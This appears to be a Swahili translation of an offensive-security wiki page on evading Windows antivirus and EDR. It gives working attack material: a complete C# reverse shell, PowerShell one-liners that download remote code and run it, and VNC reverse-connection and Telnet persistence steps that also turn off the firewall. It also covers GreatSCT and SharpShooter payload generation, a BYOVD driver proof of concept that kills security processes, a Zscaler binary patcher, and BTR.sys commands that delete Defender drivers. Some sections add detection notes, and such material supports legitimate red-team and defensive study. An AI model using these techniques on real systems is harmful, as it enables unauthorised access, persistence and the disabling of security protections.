<a id="per-build-wasm-vm-polymorphism"></a>
<a id="camouflaging-the-outer-go-executable"></a>

{{#ref}}
virtualized-payload-execution.md#webassembly-re-hosting-for-static-analysis-evasion
{{#endref}}

## TokenStomping

Token stomping hubadilisha access token ya bidhaa ya usalama kama vile EDR au AV. Kupunguza ruhusa za token kunaweza kuacha mchakato ukiendelea huku kukizuia kufanya ukaguzi au hatua za urekebishaji zinazohitaji ruhusa za juu.

Ili kuzuia hili, Windows inaweza **kuzuia michakato ya nje** kupata handles za tokens za michakato ya usalama.

- [**https://github.com/pwn1sher/KillDefender/**](https://github.com/pwn1sher/KillDefender/)
- [**https://github.com/MartinIngesen/TokenStomp**](https://github.com/MartinIngesen/TokenStomp)
- [**https://github.com/nick-frischkorn/TokenStripBOF**](https://github.com/nick-frischkorn/TokenStripBOF)

## Kutumia Programu Zinazoaminika

### Chrome Remote Desktop

Kama ilivyoelezwa katika [**chapisho hili la blogu**](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide), ni rahisi tu kusakinisha Chrome Remote Desktop kwenye PC ya mwathiriwa, kisha kuitumia kuichukua na kudumisha persistence:<sup>[[35]](#references)</sup>
1. Pakua kutoka https://remotedesktop.google.com/, bofya "Set up via SSH", kisha ubofye faili ya MSI ya Windows ili kuipakua.
2. Endesha kisakinishi kimyakimya kwenye mashine ya mwathiriwa (ruhusa za admin zinahitajika): `msiexec /i chromeremotedesktophost.msi /qn`
3. Rudi kwenye ukurasa wa Chrome Remote Desktop na ubofye next. Wizard itakuuliza uidhinishe; bofya kitufe cha Authorize ili kuendelea.
4. Tekeleza amri uliyopewa baada ya kufanya marekebisho yanayohitajika: `"%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe" --code="YOUR_UNIQUE_CODE" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=%COMPUTERNAME% --pin=111111` (parameter ya `--pin` huweka PIN bila kutumia GUI).
 

## Kukwepa Ugunduzi kwa Kina

{{#ref}}
virtualized-payload-execution.md
{{#endref}}

Kukwepa ugunduzi ni mada changamano sana; wakati mwingine inabidi uzingatie vyanzo vingi tofauti vya telemetry katika mfumo mmoja tu, kwa hiyo ni vigumu sana kutogunduliwa kabisa katika mazingira yaliyokomaa.

Kila mazingira unayokabiliana nayo yatakuwa na uwezo na udhaifu wake.

Ninakuhimiza sana uangalie mazungumzo haya kutoka kwa [@ATTL4S](https://twitter.com/DaniLJ94), ili upate msingi wa mbinu za Advanced Evasion.


{{#ref}}
https://vimeo.com/502507556?embedded=true&owner=32913914&source=vimeo_logo
{{#endref}}

Haya pia ni mazungumzo mengine mazuri kutoka kwa [@mariuszbit](https://twitter.com/mariuszbit) kuhusu Evasion in Depth.


{{#ref}}
https://www.youtube.com/watch?v=IbA7Ung39o4
{{#endref}}

## **Mbinu za Zamani**

### **Angalia ni sehemu zipi Defender inaziona kuwa hasidi**

Unaweza kutumia [**ThreatCheck**](https://github.com/rasta-mouse/ThreatCheck), ambayo **itaondoa sehemu za binary** hadi **igundue ni sehemu gani Defender** inaiona kuwa hasidi, kisha itakugawia sehemu hiyo.\
Tool nyingine inayofanya **jambo hilohilo ni** [**avred**](https://github.com/dobin/avred), inayotoa huduma hiyo kupitia wavuti kwenye [**https://avred.r00ted.ch/**](https://avred.r00ted.ch/)

### **Seva ya Telnet**

Hadi Windows10, Windows zote zilikuja na **seva ya Telnet** ambayo ungeweza kusakinisha (kama msimamizi) kwa kufanya:

```bash
pkgmgr /iu:"TelnetServer" /quiet
```

Ifanye **ianze** mfumo unapowashwa na **uiendeshe** sasa:

```bash
sc config TlntSVR start= auto obj= localsystem
```

**Badilisha port ya telnet (stealth) na uzime firewall:**

```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```

### UltraVNC

Ipakue kutoka: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (unahitaji upakuaji wa bin, si setup)

**KWENYE HOST**: Tekeleza _**winvnc.exe**_ na usanidi server:

- Washa chaguo la _Disable TrayIcon_
- Weka nenosiri kwenye _VNC Password_
- Weka nenosiri kwenye _View-Only Password_

Kisha, hamishia binary _**winvnc.exe**_ na faili _**UltraVNC.ini**_ lililoundwa **sasa hivi** ndani ya **victim**

#### **Muunganisho wa kurudi nyuma**

**Mshambuliaji** anapaswa **kutekeleza ndani ya** **host** yake binary `vncviewer.exe -listen 5900` ili iwe **tayari** kupokea **muunganisho wa VNC** wa kurudi nyuma. Kisha, ndani ya **victim**: Anzisha daemon ya winvnc `winvnc.exe -run` na utekeleze `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900`

**ONYO:** Ili kudumisha usiri, hupaswi kufanya mambo machache

- Usianzishe `winvnc` ikiwa tayari inaendeshwa, la sivyo utasababisha [popup](https://i.imgur.com/1SROTTl.png). Angalia ikiwa inaendeshwa kwa kutumia `tasklist | findstr winvnc`
- Usianzishe `winvnc` bila `UltraVNC.ini` kwenye saraka hiyo hiyo, la sivyo [dirisha la usanidi](https://i.imgur.com/rfMQWcf.png) litafunguka
- Usikimbize `winvnc -h` kwa ajili ya usaidizi, la sivyo utasababisha [popup](https://i.imgur.com/oc18wcu.png)

### GreatSCT

Ipakue kutoka: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```

Ndani ya GreatSCT:

```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```

Sasa **anzisha lister** kwa `msfconsole -r file.rc` na **tekeleza** **xml payload** kwa:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

**Defender wa sasa atasitisha mchakato haraka sana.**

### Kukompili reverse shell yetu wenyewe

https://medium.com/@Bank_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### Reverse shell ya kwanza ya C#

Ikusanye kwa kutumia:

```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```

Itumie pamoja na:

```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

### C# kwa kutumia compiler

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```

[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Upakuaji na uendeshaji wa kiotomatiki:

```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```


{{#ref}}
https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f
{{#endref}}

Orodha ya C# obfuscators: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++

```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

- [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
- [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
- [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
- [https://github.com/l0ss/Grouper2](https://github.com/l0ss/Grouper2)
- [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
- [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### Kutumia python kwa mfano wa kujenga injectors:

- [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### Zana nyingine

```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```

### Zaidi

- [https://github.com/Seabreg/Xeexe-TopAntivirusEvasion](https://github.com/Seabreg/Xeexe-TopAntivirusEvasion)

## Lete Driver Yako Hatarishi (BYOVD) – Kuua AV/EDR Kutoka Kernel Space

Storm-2603 ilitumia kifaa kidogo cha console kinachojulikana kama **Antivirus Terminator** kuzima ulinzi wa endpoint kabla ya kusambaza ransomware. Kifaa hiki huja na **driver yake hatarishi lakini *iliyotiwa saini*** na kuitumia vibaya kutekeleza shughuli zenye ruhusa za juu katika kernel, ambazo hata huduma za AV za Protected-Process-Light (PPL) haziwezi kuzuia.<sup>[[12]](#references)</sup>

Mambo muhimu ya kuzingatia
1. **Driver iliyotiwa saini**: Faili inayowasilishwa kwenye diski ni `ServiceMouse.sys`, lakini binary ni driver iliyotiwa saini kihalali, `AToolsKrnl64.sys`, kutoka kwenye “System In-Depth Analysis Toolkit” ya Antiy Labs. Kwa kuwa driver ina saini halali ya Microsoft, hupakiwa hata Driver-Signature-Enforcement (DSE) ikiwa imewezeshwa.
2. **Usakinishaji wa huduma**:
   ```powershell
   sc create ServiceMouse type= kernel binPath= "C:\Windows\System32\drivers\ServiceMouse.sys"
   sc start  ServiceMouse
   ```
   Mstari wa kwanza husajili driver kama **kernel service** na wa pili huianzisha ili `\\.\ServiceMouse` ipatikane kutoka user land.
3. **IOCTLs zinazotolewa na driver**
   | Msimbo wa IOCTL | Uwezo                                      |
   |-----------:|-----------------------------------------|
   | `0x99000050` | Kusitisha process yoyote kwa PID (hutumika kuua huduma za Defender/EDR) |
   | `0x990000D0` | Kufuta faili yoyote kwenye diski |
   | `0x990001D0` | Kupakua driver na kuondoa service |

   Minimal C proof-of-concept:
   ```c
   #include <windows.h>
   
   int main(int argc, char **argv){
       DWORD pid = strtoul(argv[1], NULL, 10);
       HANDLE hDrv = CreateFileA("\\\\.\\ServiceMouse", GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
       DeviceIoControl(hDrv, 0x99000050, &pid, sizeof(pid), NULL, 0, NULL, NULL);
       CloseHandle(hDrv);
       return 0;
   }
   ```
4. **Kwa nini inafanya kazi**: BYOVD hupita kabisa ulinzi wa user-mode; msimbo unaotekelezwa kwenye kernel unaweza kufungua michakato *iliyolindwa*, kuisimamisha, au kuharibu kernel objects bila kujali PPL/PP, ELAM au vipengele vingine vya uimarishaji wa usalama.

Ugunduzi / Upunguzaji wa athari
•  Washa orodha ya Microsoft ya madereva hatarishi ya kuzuia (`HVCI`, `Smart App Control`) ili Windows ikatae kupakia `AToolsKrnl64.sys`.
•  Fuatilia uundaji wa kernel services mpya na toa tahadhari dereva anapopakiwa kutoka kwenye directory inayoweza kuandikiwa na kila mtu au haipo kwenye allow-list.
•  Fuatilia handles za user-mode kwa custom device objects, zikifuatiwa na simu za `DeviceIoControl` zinazotia shaka.

### Kupita Ukaguzi wa Mkao wa Zscaler Client Connector kwa Kurekebisha Binary kwenye Diski

**Client Connector** ya Zscaler hutumia sheria za mkao wa kifaa ndani ya kompyuta na hutegemea Windows RPC kuwasilisha matokeo kwa vipengele vingine. Chaguo mbili dhaifu za usanifu huwezesha kupita ukaguzi kikamilifu:

1. Tathmini ya mkao hufanyika **upande wa client pekee** (thamani ya boolean hutumwa kwa server).
2. RPC endpoints za ndani huthibitisha tu kwamba executable inayounganisha **imesainiwa na Zscaler** (kupitia `WinVerifyTrust`).<sup>[[11]](#references)</sup>

Kwa **kurekebisha binaries nne zilizosainiwa kwenye diski**, mifumo yote miwili inaweza kuzimwa:

| Binary | Mantiki ya awali iliyorekebishwa | Matokeo |
|--------|------------------------|---------|
| `ZSATrayManager.exe` | `devicePostureCheck() → return 0/1` | Hurejesha `1` kila wakati, kwa hivyo kila ukaguzi huonekana kuwa unatii masharti |
| `ZSAService.exe` | Simu isiyo ya moja kwa moja ya `WinVerifyTrust` | Imeondolewa kwa NOP ⇒ mchakato wowote (hata usiosainiwa) unaweza kuunganisha kwenye RPC pipes |
| `ZSATrayHelper.dll` | `verifyZSAServiceFileSignature()` | Imebadilishwa na `mov eax,1 ; ret` |
| `ZSATunnel.exe` | Ukaguzi wa uadilifu wa tunnel | Umepitwa kwa njia ya mkato |

Dondoo fupi la patcher:

```python
pattern = bytes.fromhex("44 89 AC 24 80 02 00 00")
replacement = bytes.fromhex("C6 84 24 80 02 00 00 01")  # force result = 1

with open("ZSATrayManager.exe", "r+b") as f:
    data = f.read()
    off = data.find(pattern)
    if off == -1:
        print("pattern not found")
    else:
        f.seek(off)
        f.write(replacement)
```

Baada ya kubadilisha faili asili na kuwasha upya stack ya huduma:

* Ukaguzi **wote** wa hali unaonyesha **kijani/inafuata sera**.
* Binaries ambazo hazijasainiwa au zimebadilishwa zinaweza kufungua endpoints za RPC za named-pipe (kwa mfano, `\\RPC Control\\ZSATrayManager_talk_to_me`).
* Host iliyoathiriwa hupata ufikiaji usio na vizuizi kwa mtandao wa ndani unaofafanuliwa na sera za Zscaler.

Uchunguzi huu wa kisa unaonyesha jinsi maamuzi ya uaminifu yanayofanywa upande wa client pekee na ukaguzi rahisi wa sahihi vinavyoweza kushindwa kwa kubadilisha byte chache.

## Matumizi mabaya ya utendakazi unaoaminika wa Microsoft Defender `BTR.sys`

Driver ya Defender ya **Boot-Time Removal** ni mfano mzuri unaotofautiana na BYOVD ya kawaida. `BTR.sys` ni sehemu halali ya Microsoft iliyosainiwa kwa ajili ya urekebishaji, haina hitilafu ya uharibifu wa kumbukumbu wala interface ya IOCTL; badala yake, baada ya kupata ufikiaji wa msimamizi na `SeLoadDriverPrivilege`, operator anaweza kughushi transaction yake binafsi ya urekebishaji na kupata utendakazi wa kawaida wa faili/registry wa Ring-0. Hii ni **primitive ya kuzima AV/EDR baada ya kuathiri mfumo, si ya kupata ufikiaji wa awali au kupandisha mamlaka**, na driver inaweza kutolewa kutoka kwenye resource ya `BOOTTIMETOOL` ya `MpEngine.dll` ya target yenyewe badala ya kuleta driver ya mtu mwingine inayotiliwa shaka.<sup>[[36]](#references)</sup>

### Kuweka driver ya matumizi ya mara moja

Kwa kawaida Defender hutupa resource kama faili la nasibu la `[a-z]{8}.sys` na kusajili kernel service yenye jina linalofanana. `DriverEntry` husoma thamani ya `Args` ya service, hufungua NTFS ADS iliyorejelewa, husimbua na kuthibitisha orodha ya vitendo, huandika mrejesho, kisha hurejesha `0xC0000056` (`STATUS_DELETE_PENDING`) baada ya utekelezaji kufanikiwa ili driver ijiondoe badala ya kubaki kwenye kumbukumbu. Service iliyoghushiwa huwa na thamani zifuatazo bainifu.<sup>[[36]](#references)[[37]](#references)</sup>

```text
Type         = 1
Start        = 1
ErrorControl = 0
ImagePath    = \??\C:\Windows\System32\drivers\<random>.sys
Group        = Boot Bus Extender
Args         = C:\Windows\System32\drivers\<random>.sys:changelist
```

Stream ya `:changelist` ina blob moja iliyosimbwa kwa RC4. Builds zilizochambuliwa hutumia tena ufunguo usiobadilika wa baiti 256, kwa hivyo usimbaji fiche si mpaka wa authorization. Plaintext halali ina header ya jumla ya baiti 24 (`Magic=0xFEE1DEAD`, `Version=2`, `PayloadOffset=0x10`, CRC ya header na transaction ID inayotokana na payload), ikifuatiwa na njia ya feedback ya UTF-16 inayomalizika kwa null na idadi yoyote ya items. Kila item ina header ya baiti 16 (`DataSize`, `Action`, `HeaderCRC`, `DataCRC`) pamoja na data mahususi kwa action inayomalizika kwa **baiti NUL nne haswa**. Kila eneo la header/data hukaguliwa kivyake kwa CRC-32 yenye polynomial `0xEDB88320`, hali ya mwanzo `0xFFFFFFFF`, na **bila XOR ya mwisho** (`~CRC32`); hali ya CRC huwekwa upya kwa kila eneo.<sup>[[36]](#references)[[37]](#references)</sup>

Vitambulisho vya action vinavyokubaliwa hufichua kernel primitives hizi.<sup>[[36]](#references)[[37]](#references)</sup>

| ID | Data ya item | Matokeo |
| --- | --- | --- |
| 1 | `[UTF-16 path]` | Futa faili, ikiwemo faili iliyofungwa |
| 2 | `[UTF-16 path]` | Ondoa directory tupu |
| 3 | `[Flags][source][destination]` | Hamisha faili hadi kwenye njia iliyolindwa iliyochaguliwa na mshambuliaji; destination tupu inamaanisha kufuta |
| 4 | `[Flags][key path]` | Futa key ya registry kwa kujirudia |
| 5 | `[Flags][key path + "\\" + value]` | Futa value ya registry |
| 6 | `[Flags][type][size][key path + "\\" + value][data]` | Unda/sasisha value ya registry na uunde njia za key ambazo hazipo |

Kwa actions 5 na 6, kitenganishi cha key/value kilicho kwenye waya ni **backslash mbili zinazofuatana**; njia iliyopangwa kwa namna ya kawaida haitatenganishwa ipasavyo. Faili ya feedback kwa kiasi kikubwa huakisi ombi, lakini baiti nne za kwanza za data ya kila item hubadilika kuwa `NTSTATUS` yake ya matokeo. Kwa actions 1 na 2, ambazo hazina sehemu ya flags mwanzoni, BTR huhamisha njia hadi kwenye baiti nne zilizohifadhiwa mwishoni ili kutoa nafasi ya status.<sup>[[36]](#references)</sup>

### Mtiririko wa kazi wa `BTR_CLI` na dirisha la early-boot

[`BTR_CLI`](https://github.com/Dump-GUY/BTR_CLI) hutekeleza mnyororo mzima: kutoa `BTR.sys` kutoka kwa Defender ya ndani, kuunda `<random>.sys:changelist` na stream ya feedback, kuserializa/kukokotoa checksum/kusimba actions zilizounganishwa, kuunda key ya registry ya service moja kwa moja, kisha kuita `NtLoadDriver` kwa `-trigger now` au kuiacha kama driver ya system-start kwa `-trigger boot`. Kuweka data moja kwa moja kwenye registry huepuka njia ya kawaida ya SCM `CreateServiceW`, na kwa hivyo hakuzalishi Event ID 7045 ya usakinishaji wa service. Artifacts zilizowashwa wakati wa boot zinaweza kuondolewa baadaye kwa `BTR_CLI.exe -cleanup <service_name>`.<sup>[[36]](#references)[[37]](#references)</sup>

```powershell
# Runtime: remove protected security-service registrations from Ring 0
BTR_CLI.exe -chain -item "4|HKLM\SYSTEM\CurrentControlSet\Services\WdFilter" -item "4|HKLM\SYSTEM\CurrentControlSet\Services\WinDefend" -trigger now

# Boot: delete a security driver before its user-mode protection stack starts
BTR_CLI.exe -a 1 -s "C:\Windows\System32\drivers\wd\WdFilter.sys" -trigger boot
```

`Start=0` haiwezi kutumika kwa sababu BTR hufanya I/O ya faili kutoka `DriverEntry` kabla stack ya hifadhi na kiungo cha `SystemRoot` kuwa tayari. `Start=1` pamoja na kundi la kipaumbele cha juu la `Boot Bus Extender` badala yake huitekeleza katika Phase 1: NTFS inaweza kutumika, lakini driver nyingi za usalama za system-start na huduma za EDR za user-mode bado hazijaanzishwa. Filters za boot-start kama `WdFilter` huenda tayari zimepakiwa, lakini BTR inaweza kuondoa binary zao au usanidi wa huduma kabla ya uanzishaji unaofuata, na inaweza kufuta executable za huduma kabla ya SCM kuzizindua. ELAM haifungi pengo hili kwa sababu BTR huendeshwa baada ya tathmini ya boot-start na ina sahihi halali ya Microsoft.<sup>[[36]](#references)</sup>

Vitendo vingi hutekelezwa katika muamala mmoja. PoC huweka Action 1 mwanzoni kwa `\SystemRoot\Temp\BootClean.log` iliyowekwa hard-code: BTR huunda logi hii, kisha hutekeleza ombi lake yenyewe la kuifuta na kuiondoa kabla ya kujiondoa. Hii hupunguza ushahidi, huku kuweka maoni kwenye `<random>.sys:<random>.dat` kukiwezesha kuondoa driver na streams zote mbili pamoja.<sup>[[36]](#references)[[37]](#references)</sup>

### Ulinganisho wa ugunduzi wenye ishara kubwa

Kanuni zinazotegemea sahihi pekee na orodha ya Microsoft ya driver hatarishi hazishughulikii matumizi mabaya ya utendakazi uliokusudiwa wa BTR. Pendelea ulinganisho huu wa kitabia, huku ukitofautisha chimbuko halali la Defender na launcher isiyojulikana.<sup>[[36]](#references)</sup>

- **Sysmon 15:** Kuundwa kwa `.sys:changelist` hutokea katika kila hatua ya uwekaji wa BTR. ADS ya `.dat` iliyoambatishwa kwenye `.sys` hiyo hiyo inatia shaka hasa kwa sababu Defender halali kwa kawaida huweka maoni chini ya `C:\ProgramData\Microsoft\Windows Defender\Scans\RebootActions\`.
- **Sysmon 12/13 bila System 7045:** Linganisha uundaji wa moja kwa moja wa `HKLM\SYSTEM\CurrentControlSet\Services\<random>` ulio na `Args=...:changelist` na `Group=Boot Bus Extender` na kutokuwepo kwa tukio linalolingana la usakinishaji wa SCM.
- **Sysmon 6 -> 23:** Linganisha upakiaji wa driver inayojulikana ya BTR kutoka kwenye chimbuko lisilo la Defender na ufutaji wa faili unaofuata unaohusishwa na `System`/PID 4, hasa kwa binary za usalama.
- **Sysmon 11 -> 23:** Toa tahadhari kuhusu kuundwa na kufutwa kwa haraka kwa `\SystemRoot\Temp\BootClean.log` na `System`/PID 4.
- Zuia na kagua ugawaji/uwezeshaji wa `SeLoadDriverPrivilege`; sahihi ya Microsoft pekee haitoshi kuthibitisha uaminifu wakati driver ya zana ya usalama inapowekwa na `cmd.exe`, PowerShell, au mchakato usiojulikana.

## Kutumia Vibaya Protected Process Light (PPL) Kuharibu AV/EDR Kwa LOLBINs

Protected Process Light (PPL) hutekeleza mpangilio wa viwango vya signer ili michakato iliyolindwa yenye kiwango sawa au cha juu pekee iweze kuingiliana na mingine. Kwa upande wa mashambulizi, ukiweza kuzindua kihalali binary iliyowezeshwa kwa PPL na kudhibiti hoja zake, unaweza kubadilisha utendakazi usio na madhara (k.m., logging) kuwa primitive yenye mipaka ya kuandika, inayotumia PPL, dhidi ya saraka zilizolindwa zinazotumiwa na AV/EDR.<sup>[[16]](#references)[[17]](#references)[[18]](#references)[[19]](#references)[[20]](#references)</sup>

Kinachofanya mchakato uendeshwe kama PPL
- EXE lengwa (na DLL zozote zilizopakiwa) lazima iwe imetiwa sahihi kwa EKU inayoweza kutumia PPL.
- Mchakato lazima uundwe kwa CreateProcess kwa kutumia flags hizi: `EXTENDED_STARTUPINFO_PRESENT | CREATE_PROTECTED_PROCESS`.
- Lazima iombwe protection level inayolingana na signer wa binary (k.m., `PROTECTION_LEVEL_ANTIMALWARE_LIGHT` kwa signers za anti-malware, `PROTECTION_LEVEL_WINDOWS` kwa signers za Windows). Viwango visivyo sahihi vitasababisha uundaji kushindwa.

Tazama pia utangulizi mpana zaidi wa PP/PPL na ulinzi wa LSASS hapa:

{{#ref}}
stealing-credentials/credentials-protections.md
{{#endref}}

Zana za launcher
- Zana saidizi ya open-source: CreateProcessAsPPL (huchagua protection level na kusambaza hoja kwa EXE lengwa):
  - [https://github.com/2x7EQ13/CreateProcessAsPPL](https://github.com/2x7EQ13/CreateProcessAsPPL)<sup>[[19]](#references)</sup>
- Muundo wa matumizi:

```text
CreateProcessAsPPL.exe <level 0..4> <path-to-ppl-capable-exe> [args...]
# example: spawn a Windows-signed component at PPL level 1 (Windows)
CreateProcessAsPPL.exe 1 C:\Windows\System32\ClipUp.exe <args>
# example: spawn an anti-malware signed component at level 3
CreateProcessAsPPL.exe 3 <anti-malware-signed-exe> <args>
```

LOLBIN primitive: ClipUp.exe
- Binary ya mfumo iliyosainiwa `C:\Windows\System32\ClipUp.exe` hujizindua yenyewe na hukubali kigezo cha kuandika faili ya kumbukumbu kwenye njia iliyobainishwa na mpigaji.
- Inapozinduliwa kama mchakato wa PPL, uandishi wa faili hufanyika kwa ulinzi wa PPL.
- ClipUp haiwezi kuchanganua njia zilizo na nafasi; tumia njia fupi za 8.3 kuelekeza kwenye maeneo ambayo kwa kawaida hulindwa.

Wasaidizi wa njia fupi za 8.3
- Orodhesha majina mafupi: `dir /x` katika kila saraka mama.
- Pata njia fupi katika cmd: `for %A in ("C:\ProgramData\Microsoft\Windows Defender\Platform") do @echo %~sA`

Mnyororo wa matumizi mabaya (muhtasari)
1) Zindua LOLBIN inayoweza kutumia PPL (ClipUp) kwa `CREATE_PROTECTED_PROCESS` ukitumia kizindua (kwa mfano, CreateProcessAsPPL).
2) Pitisha hoja ya njia ya kumbukumbu ya ClipUp ili kulazimisha uundaji wa faili katika saraka ya AV iliyolindwa (kwa mfano, Defender Platform). Tumia majina mafupi ya 8.3 ikihitajika.
3) Ikiwa AV kwa kawaida huwa imefungua/kufunga binary lengwa inapofanya kazi (kwa mfano, MsMpEng.exe), panga uandishi wakati wa kuwasha kompyuta kabla AV haijaanza kwa kusakinisha huduma ya kujiwasha kiotomatiki ambayo huanza mapema zaidi kwa uhakika. Thibitisha mpangilio wa kuwasha kwa Process Monitor (rekodi ya kuwasha).
4) Kompyuta inapowashwa upya, uandishi unaotumia PPL hufanyika kabla AV haijafunga binary zake, na kuharibu faili lengwa na kuzuia kuanza kwake.

Mfano wa uendeshaji (njia zimeondolewa/kufupishwa kwa usalama):

```text
# Run ClipUp as PPL at Windows signer level (1) and point its log to a protected folder using 8.3 names
CreateProcessAsPPL.exe 1 C:\Windows\System32\ClipUp.exe -ppl C:\PROGRA~3\MICROS~1\WINDOW~1\Platform\<ver>\samplew.dll
```

Maelezo na vikwazo
- Huwezi kudhibiti maudhui ambayo ClipUp huandika isipokuwa mahali yanapoandikwa; primitive hii inafaa kwa kuharibu data badala ya kuingiza maudhui mahususi.
- Inahitaji local admin/SYSTEM ili kusakinisha/kuanzisha service na fursa ya kuwasha upya.
- Muda ni muhimu: lengo halipaswi kuwa limefunguliwa; utekelezaji wakati wa kuwasha huepusha kufungwa kwa faili.

Ugunduzi
- Uundaji wa process ya `ClipUp.exe` yenye arguments zisizo za kawaida, hasa ikiwa imeanzishwa na launchers zisizo za kawaida, wakati wa kuwasha au karibu na hapo.
